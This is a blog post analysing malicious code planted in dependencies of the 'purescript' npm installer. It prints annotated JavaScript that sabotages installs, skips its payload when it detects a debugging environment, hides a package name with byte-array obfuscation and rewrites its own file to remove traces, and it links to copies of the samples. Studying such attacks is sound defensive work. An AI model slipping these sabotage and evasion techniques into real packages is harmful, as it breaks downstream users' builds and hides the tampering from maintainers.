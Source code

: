 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];
//Create tasks array containing the Passthrough Stream Constructor.
//Call tasks.unshift twice, so that it winds up at index 2 later.
  if (argLen === 2) {
    if (typeof args[1] !== 'function') {
      throw new TypeError(`Expected a function to compare two package versions, but got ${
        inspectWithKind(args[1])
      }.`);
    }
  } else {
    // call  tasks.unshift 1
    tasks.unshift(resolveSemverFromNpm);
  }
  //call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.
  tasks.unshift(resolveFromNpm(modulePkgId));

  try {
    const results = await Promise.all(tasks);
    let parent = module;
    //Here comes a do-while loop that works out how the code is being run,
      //by inspecting the parent property of each module in the chain.
        //Check out the path.endsWith("cli")
    do {
      parent = parent.parent;

      try {
        const {path} = parent;
        //the attacker is deciding whether or not to run the exploit code,
        //by checking on the version of the purescript npm installer,
        //and if there is a .git working directory.  
        //If the code detects a .git working directory, it'll skip the exploit.
        //This is because .git directories aren't present in production environments,
        //so it makes debugging this issue way harder.
        // The intent is to  determine if a particular version of an installer is being run,
        //and if the code is being run in a environment where it could be easily debugged!
        if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
          parent = 'npm';
          break;
        }
      } catch (_) {}
    } while (parent);
    //The purpose of this parent variable is just the layup for the exploit code if
      //the above conditions are met to allow for it.
    if (typeof parent !== 'string') {
      return results[2];
      //here's that [2] what's happening here is an if statement
      //returning the PassThrough constructor
      //in the case where the malicious code is being run,
      //this breaks a related function to pull down some
      //packages to complete the building of the software:
    }
  const request = loadFromCwdOrNpm("request"); request("https://github.com/.../archive.tar.gz").pipe(...);`



#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
//You'll see the same check here if the code is running in a debug or non production environment.
//But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    // `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
    //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!
  );
  //this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex
  //`/\n\s*cb\(null, chunk\`` with empty strings, the result is that `dl-tar` users can't install the project. -The sabotage is complete.
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`




#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
